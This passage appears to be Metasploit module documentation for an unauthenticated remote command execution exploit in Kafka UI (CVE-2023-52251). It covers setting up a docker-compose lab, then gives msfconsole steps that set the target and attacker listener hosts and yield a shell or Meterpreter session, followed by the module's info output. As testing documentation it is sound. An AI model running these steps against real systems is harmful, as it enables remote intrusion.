```yaml
    depends_on:
      - kafka
      - zookeeper
    environment:
      KAFKA_CLUSTERS_0_NAME: local
      KAFKA_CLUSTERS_0_BOOTSTRAPSERVERS: kafka:9092
      KAFKA_CLUSTERS_0_ZOOKEEPER: zookeeper:2181
      KAFKA_BROKERCONNECT: kafka:9092
      DYNAMIC_CONFIG_ENABLED: 'true'
      KAFKA_CLUSTERS_0_METRICS_PORT: 9997
```

* Run following command `docker-compose up -d` to install and run the Kafka ui and cluster environment.
* Your Kafka ui should be accessible on `http://localhost:8080` with an active Kafka cluster running.
* You can bring down the environment for a fresh start with the command `docker-compose down --volumes`.

You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix/Linux Command>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`.

```shell
msf exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > info

       Name: Kafka UI Unauthenticated Remote Command Execution via the Groovy Filter option.
     Module: exploit/linux/http/kafka_ui_unauth_rce_cve_2023_52251
   Platform: Unix, Linux
       Arch: cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-09-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  BobTheShopLifter and Thingstad

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix/Linux Command

Check supported:
  Yes
```